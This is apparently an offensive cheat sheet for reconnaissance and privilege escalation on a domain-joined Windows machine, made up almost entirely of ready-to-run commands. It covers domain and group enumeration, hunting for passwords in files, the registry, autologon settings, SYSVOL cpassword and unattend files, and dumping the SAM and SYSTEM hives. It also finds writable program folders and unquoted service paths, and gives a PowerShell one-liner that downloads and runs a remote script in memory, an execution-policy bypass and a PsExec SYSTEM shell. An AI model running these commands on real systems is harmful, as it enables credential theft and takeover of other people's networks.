 #This cheatsheet is for recon of a windows environnement starting with a simple computer member of the domain.
#get iP configuration
ipconfig /all 

#check existing route 
route print
Get-NetRoute -AddressFamily IPv4 | ft DestinationPrefix,NextHop,RouteMetric,ifIndex

#check local firewall state 
netsh firewall show state
Get-NetFirewallProfile


#check Arp Cache 
arp -a
Get-NetNeighbor -AddressFamily IPv4 | ft ifIndex,IPAddress,LinkLayerAddress,State


#Get account Information
whoami /all

#get information about the system
systeminfo

#Check Update :
wmic qfe list brief
wmic qfe get Caption,Description,HotFixID,InstalledOn
#Check Hosts file 
get-content C:\WINDOWS\System32\drivers\etc\hosts

#check privilege 
whoami /priv

#get all local user
net user
Get-LocalUser | ft Name,Enabled,LastLogon

#get all local group
net localgroup
Get-LocalGroup | ft Name


#check member of local group
net localgroup administrateurs

#get member of domain admin groups
net group /domain "admins du domaine"
net group /domain "Domain admins"

#get intel of a specific domain User 
net user /DOMAIN administrator

#Identify all domain controller 
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().DomainControllers

#Identify DnS server, it many case in WIndow Env it's a domain Controller
Get-DnsClientServerAddress -AddressFamily IPv4 | ft

#check password in file ;)
findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini
findstr /si password *.conf

# Find all passwords in all files.
findstr /spin "password" *.*


#Get Applied GPO  
gpresult /h GPO.html /f

#identify network share 
net use

#list local share
Get-SmbShare
net share

#Get all share of remote server
net view \\servernameorIP

#Check auto logon credential

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' | select "Default*"


#Acces SAM
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system


#Check Right to identify leverafe for privesc
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "tout le monde"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "tout le monde"

icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users" 


icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(M)" | findstr "Everyone"

icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr "tout le monde"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(M)" | findstr "tout le monde"

icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr "BUILTIN\Users" 
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(M)" | findstr "BUILTIN\Users" 


#List ScheduledTask

schtasks /query /fo LIST 2>nul | findstr TaskName
dir C:\windows\tasks
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State,

#List service where the executable files is not in C:\Windows 
gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.PathName -notlike "C:\Windows*" } | select PathName,DisplayName,Name

#List Unquoted service Path
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
#check password in regigistre
reg query HKCU /f password /t REG_SZ /s
reg query HKLM /f password /t REG_SZ /s 

#PowerShell One-Line Script Execution in Memory
IEX(New-Object Net.WebClient).downloadString('http://server/script.ps1')

#powershell bypass execution policy
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1


#Powershell identify server 2003 in the current domain 
([adsisearcher]'(OperatingSystem=Windows Server 2003*)').FindAll()

#Powershell identify all Window in the current 
([adsisearcher]'(OperatingSystem=Windows*)').FindAll()

#Psexec to run a shell as system
 PSEXEC -i -s -d CMD

#Check cpassword in SYSVOL to identify 
findstr /si cpassword *.xml

#dump sam 

reg save hklm\sam sam.hiv
reg save hklm\system sys.hiv
#some other interessing files
c:\sysprep.inf
c:\sysprep\sysprep.xml
c:\unattend.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml

dir c:\*vnc.ini /s /b
dir c:\*ultravnc.ini /s /b 
dir c:\ /s /b | findstr /si *vnc.ini
